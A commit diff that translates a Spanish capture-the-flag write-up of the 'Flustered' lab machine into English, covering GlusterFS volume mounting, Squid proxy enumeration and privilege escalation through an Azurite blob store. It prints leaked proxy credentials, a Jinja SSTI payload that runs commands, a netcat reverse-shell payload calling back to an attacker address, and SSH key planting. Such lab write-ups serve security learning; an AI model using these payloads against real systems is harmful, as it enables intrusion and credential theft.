

Before and after one commit to jdejavi/jdejavi.github.io, a Jekyll site: the page built from _posts/2026-02-19-Flustered.md, in a window 1280 px wide and 1400 px high, scrolled down 3343 px. Shown: the whole window at 96% size, without its empty margins (178-1101 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2026-02-19-Flustered.md

````diff
--- a/_posts/2026-02-19-Flustered.md
+++ b/_posts/2026-02-19-Flustered.md
@@ -4,23 +4,23 @@ title: "Flustered"
 date: 2026-02-19 10:00:00
 categories: writeups
 tags: [glusterFS, squid, squidProxy, user pivoting, internal enum, Azure Storage pentesting]
-lang: es
+lang: en
 image: /assets/images/flustered/box-flustered.png
 ---
 
 ![]({{ "/assets/images/flustered/flustered-card.png" | relative_url }})
 
-# Conceptos vistos en la máquina
+# Concepts seen on the machine
 ```
-- Montaje de GlusterFS volume
-- Uso de SquidProxy para descubrir apps interna
-- SSTI para ganar acceso inicial
-- Extracción de certificados de gluster para montarnos vol1 y creacion de ssh-keys para pivotar de usuario
-- Enumeración de red interna docker
-- Interacción con Azure Storage
+- Mounting GlusterFS volume
+- Using SquidProxy to discover internal applications
+- SSTI to gain initial access
+- Extracting Gluster certificates to mount vol1 and creating ssh-keys to pivot users
+- Enumerating the internal Docker network
+- Interacting with Azure Storage
 [*] Bonus
-	- Como hacer que funcione el Azure Storage
-	- Set de SquidProxy con FoxyProxy
+	- How to make Azure Storage work
+	- Setting up SquidProxy with FoxyProxy
 ```
 
 # Enumeration & Initial Foothold
@@ -91,11 +91,11 @@ Nmap done: 1 IP address (1 host up) scanned in 40.31 seconds
 
 ## 80 - HTTP
 
-Lanzamos el whatweb para ver información acerca de las tecnologías en uso, vemos un subdominio
+We launch whatweb to see information about the technologies in use, we see a subdomain
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105181431.png" | relative_url }})
 
-En la web no hay nada de nada
+There is absolutely nothing on the website. :(
 
 ## 111 - RPC
 
@@ -103,11 +103,11 @@ En la web no hay nada de nada
 
 ## 3128 - SQUID
 
-Accedemos via URL
+We access via URL
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105182136.png" | relative_url }})
 
-Probamos a hacer una petición empleando este proxy con curl, y viendo las cabeceras, observamos que necesita de una autenticación
+We tried making a request using this proxy with curl, and looking at the headers, we saw that it requires authentication.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105182632.png" | relative_url }})
 
@@ -116,33 +116,33 @@ Probamos a hacer una petición empleando este proxy con curl, y viendo las cabec
 curl http://user:pass@flustered.htb:3128 http://flustered.htb --head
 ```
 
-Empleamos la herramienta spose para enumerar puertos haciendo uso del proxy que pueda tener abiertos de manera interna que si no es pasando por el proxy, no se ven
+We use the spose tool to list ports using the proxy that may be open internally, which would not be visible if not going through the proxy.
 
 [spose](https://github.com/aancw/spose)
 
-Lo ejecutamos pasando por la URL las credenciales que hemos enumerado
+We execute it by passing the credentials we have listed through the URL.
 
 ## 24007, 49152 -  GlusterFS
 
-Encontramos que es un sistema de comparticion de ficheros, basicamente un NFS, así que, enumeramos los volúmenes con gluster
+We found that it is a file sharing system, basically an NFS, so we listed the volumes with gluster.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105191227.png" | relative_url }})
 
-Vemos que hay 2, intentaremos montarlos en nuestro sistema para ver que contienen
+We see that there are two, we will try to mount them on our system to see what they contain.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105191311.png" | relative_url }})
 
-Nos esta reventando porque esta dando un resolution failed a flustered
+You are not mounting the containers correctly because we are getting a resolution failed to flustered error.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105191451.png" | relative_url }})
 
-Actualizamos el /etc/hosts y probamos de nuevo
+We update /etc/hosts and try again.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105191538.png" | relative_url }})
 
-Comprobamos que podemos montarnos el vol2 y vemos archivos, enumeramos los importantes
+We verify that we can mount vol2 and view files, listing the important ones.
 
-Encontramos un archivo .ibd, que suele almacenar contraseñas, en este caso, serían de un usuario del squid proxy
+We found an .ibd file, which usually stores passwords. In this case, they would belong to a Squid proxy user.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105192115.png" | relative_url }})
 
@@ -150,13 +150,12 @@ Encontramos un archivo .ibd, que suele almacenar contraseñas, en este caso, ser
 lance.friedman:o>WJ5-jD<5^m3
 ```
 
-Nos configuramos un proxy en foxyproxy para poder hacer uso de este proxy y estas credenciales
+We set up a proxy in FoxyProxy so that we can use this proxy and these credentials.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105195554.png" | relative_url }})
 
 
-Ahora, al pasar por este proxy, no tenemos que acceder ni a la IP ni nada, porque las peticiones van desde el proxy, así que probamos a usar `127.0.0.1` y vemos que la página cambia, lo que nos hace pensar en que es posible que haya rutas internas, fuzzeamos por rutas
-
+Now, when passing through this proxy, we don't have to access the IP or anything else, because the requests go from the proxy, so we try using `127.0.0.1` and see that the page changes, which makes us think that there may be internal routes, so we fuzz for routes.
 
 ```
 curl -x http://lance.friedman:o>WJ5-jD<5^m3@flustered.htb:3128 http://127.0.0.1
@@ -164,18 +163,17 @@ curl -x http://lance.friedman:o>WJ5-jD<5^m3@flustered.htb:3128 http://127.0.0.1
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105195516.png" | relative_url }})
 
-Fuzzeamos rutas, *IMPORTANTE, como la contraseña tiene caracteres especiales como <, hay que URLencodearlo*
+We fuzz routes, *IMPORTANT, as the password contains special characters such as <, it must be URL-encoded*
 
 ```
 gobuster dir -u http://127.0.0.1 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --proxy "http://lance.friedman:o%3EWJ5-jD%3C5%5Em3@flustered.htb:3128"
 ```
 
-Encontramos una ruta `/app`, volvemos a fuzzear dentro de ella filtrando por extensiones de archivo, como `.py y .php` , y encontramos otras 3 rutas, `/templates`, `/static` y `/config`, y un `app.py` que nos devuelve un 200
+We find a route `/app`, we fuzz inside it again filtering by file extensions, such as `.py and .php`, and we find three other routes, `/templates`, `/static` and `/config`, and an `app.py` that returns a 200.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105201522.png" | relative_url }})
 
-
-Al acceder, nos descarga el codigo, que es el siguiente
+Upon accessing, it downloads the code, which is as follows
 
 ```
 from flask import Flask, render_template_string, url_for, json, request
@@ -207,19 +205,18 @@ if __name__ == "__main__":
   app.run()
 ```
 
-Observamos que está intentando cargar una "configuracion" de un parametro config, y si no hay nada, muestra el `steampunk-era.htb`
+We observe that you are attempting to load a ‘configuration’ of a config parameter, and if there is nothing, it displays `steampunk-era.htb`.
 
-Analizando el codigo, recibe los datos de una petición POST de un parámetro `siteurl` y lo muestra, pero está sin sanitizar correctamente, lo que puede significar que sea vulnerable a un SSTI, probamos a mandarle un payload tipico, como `{{ 7 * 7 }}` y si lo interpreta, será vulnerable
+Analysing the code, it receives data from a POST request from a `siteurl` parameter and displays it, but it is not properly sanitised, which may mean that it is vulnerable to an SSTI. We tried sending it a typical payload, such as `{{ 7 * 7 }}`, and if it interprets it, it will be vulnerable.
 
 ```
 curl -X POST -H "Content-Type: application/json" -d '{"siteurl": "{{ 7 * 7 }}"}' http://10.10.11.131/
 ```
 
-
 ![]({{ "/assets/images/flustered/Pasted image 20251105202130.png" | relative_url }})
 
 
-Vemos que se acontece el ataque, nos pasamos la petición a burpsuite con `-x http://127.0.0.1:8080` y ejecutaremos un RCE
+We see that the attack is happening, we pass the request to burpsuite with `-x http://127.0.0.1:8080` and we will execute an RCE.
 
 ```
 "siteurl"="{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}{% endraw %}"
@@ -228,7 +225,7 @@ Vemos que se acontece el ataque, nos pasamos la petición a burpsuite con `-x ht
 ![]({{ "/assets/images/flustered/Pasted image 20251105202455.png" | relative_url }})
 
 
-Nos mandaremos una reverse shell
+We will send ourselves a reverse shell.
 
 ```
 "siteurl"="{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('/usr/bin/nc 10.10.14.6 6666 -e /bin/bash').read() }}{% endraw %}"
@@ -238,78 +235,78 @@ Nos mandaremos una reverse shell
 
 # Privesc
 
-Enumeramos cosas basicas de la máquina, descubrimos un usuario llamado `jeniffer`
+We list basic information about the machine and discover a user named `jeniffer`.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105202733.png" | relative_url }})
 
-El vol1 es propiedad de jennifer
+Volume 1 is owned by Jennifer.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105203737.png" | relative_url }})
 
-Lanzamos el linpeas para enumerar información relevante
+We launched Linpeas to list relevant information.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105204239.png" | relative_url }})
 
-Este glusterfs.pem lo hemos visto antes, al ir a montar el vol1 no nos dejó montarlo debido al siguiente error
+We have seen the `glusterfs.pem` file before. When we tried to mount vol1, we were unable to do so due to the following error
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105203956.png" | relative_url }})
 
 
-Nos bajamos el certificado, lo movemos a la ruta de donde lo esta llamando, `/etc/ssl` y probamos a montarnos el volumen, y nos vuelve a dar error, pidiendo el .key
+We download the certificate, move it to the path where it is being called, `/etc/ssl`, and try to mount the volume, but we get an error again, asking for the .key.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105204702.png" | relative_url }})
 
-Como nos va a pedir todos, nos bajamos todos y los metemos en `/etc/ssl` y ahora nos deja montarnos el volumen
+As it will ask us for all of them, we download them all and put them in `/etc/ssl`, and now it lets us mount the volume.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105204915.png" | relative_url }})
 
-Observamos que es el /home de jennifer, si podemos escribir nos creamos unas ssh keys y nos loguearemos
+We see that it is jennifer's /home directory. If we can write, we will create some SSH keys and log in.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105205148.png" | relative_url }})
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105205201.png" | relative_url }})
 
-Y ya tenemos acceso como jennifer con ssh
+And now we have access as jennifer with ssh.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105205225.png" | relative_url }})
 
-Encontramos un archivo en var backups que se llama key, que podemos leer, ademas de varios backups
+We found a file in var backups called key, which we can read, as well as several backups.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251106084655.png" | relative_url }})
 
-Dentro de la máquina, enumeramos y vemos que hay una interfaz nueva, así que enumeraremos los hosts que hay en ella, es una red de docker
+Inside the machine, we list and see that there is a new interface, so we will list the hosts on it. It is a Docker network.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251106091510.png" | relative_url }})
 
-Usaremos los scripts que usamos para enumerar en DMZ01, lo editamos un poco para que abarque todos los hosts de la red y lo lanzamos
+We will use the scripts we used to enumerate in DMZ01, edit it slightly to cover all hosts on the network, and launch it.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251106095226.png" | relative_url }})
 
-Encontramos un host, nos montamos un tunel con el ligolo y escanearemos los puertos
+We find a host, set up a tunnel with Ligolo, and scan the ports.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251106100016.png" | relative_url }})
 
-Encontramos el puerto 10000 abierto, probamos a acceder y nos da un error
+We found port 10000 open, tried to access it, and got an error.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251106100125.png" | relative_url }})
 
-Buscando el error en google, vemos que se trata de un Azure Storage
+Searching for the error on Google, we see that it is related to Azure Storage.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251106100247.png" | relative_url }})
 
-En particular, viendo las cabeceras, vemos que se trata de un Azurite Blob
+In particular, looking at the headers, we see that it is an Azurite Blob.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251106100402.png" | relative_url }})
 
 
-Nos bajaremos la herramienta `storage-explorer` con snap para enumerar este container de azure, tendremos en cuenta la key que hemos visto antes de jennifer por si nos la piden, la hemos encontrado con el linpeas en `/var/backups`
+We will download the `storage-explorer` tool with snap to list this Azure container. We will keep in mind the key we saw earlier for Jennifer in case we are asked for it. We found it with linpeas in `/var/backups`.
 
 
 ```
 FMinPqwWMtEmmPt2ZJGaU5MVXbKBtaFyqP0Zjohpoh39Bd5Q8vQUjztVfFphk73+I+HCUvNY23lUabd7Fm8zgQ==
 ```
 
-Instalamos el storage-explorer y añadimos la linea de abajo segun la documentacion
+We install the storage explorer and add the line below according to the documentation.
 
 ```
 sudo apt update
@@ -319,13 +316,13 @@ sudo snap install storage-explorer
 snap connect storage-explorer:password-manager-service :password-manager-service
 ```
 
-Dentro, no nos vale con tener el tunel, asi que nos forwardearemos el puerto localmente para que acceda de manera local
+Inside, it is not enough to have the tunnel, so we will forward the port locally so that it can be accessed locally.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251106102209.png" | relative_url }})
 
 ![]({{ "/assets/images/flustered/Pasted image 20251106102235.png" | relative_url }})
 
-Al ir a acceder, nos da un error
+When we try to access it, we get an error message.
 
 ```
 ProducerError:{
@@ -334,19 +331,15 @@ ProducerError:{
 }
 ```
 
-*Da un puto coñazo, nos tenemos que montar una ubuntu para instalar la mierda del storage explorer, por la version de la API*
-
-Para resolver este calvario, simplemente tenemos que declarar la variable de entorno, con la version de la api que acepta esta version del azurite, que es la 2023-11-03
+We continue to receive the error, so, looking for a solution, we found that the tool works better from Ubuntu. We just have to declare the environment variable with the API version that this version of Azurite accepts, which is 2023-11-03, for it to be valid, and launch the `storage-explorer`, and we will see that there is an `ssh-keys` folder.
 
 ```
 export AZURE_STORAGE_API_VERSION=2023-11-03
 ```
 
-Para que sea la valida, y lanzar el `storage-explorer`, y ya veremos que hay una carpeta de `ssh-keys`
-
 ![]({{ "/assets/images/flustered/Pasted image 20251106121643.png" | relative_url }})
 
-Cogemos la de root y nos autenticamos por SSH
+We take the root one and authenticate ourselves via SSH.
 
 ![]({{ "/assets/images/flustered/Pasted image 20251106121838.png" | relative_url }})
 
````
Also changed, not shown: other parts of _posts/2026-02-19-Flustered.md (+3 -3 lines).
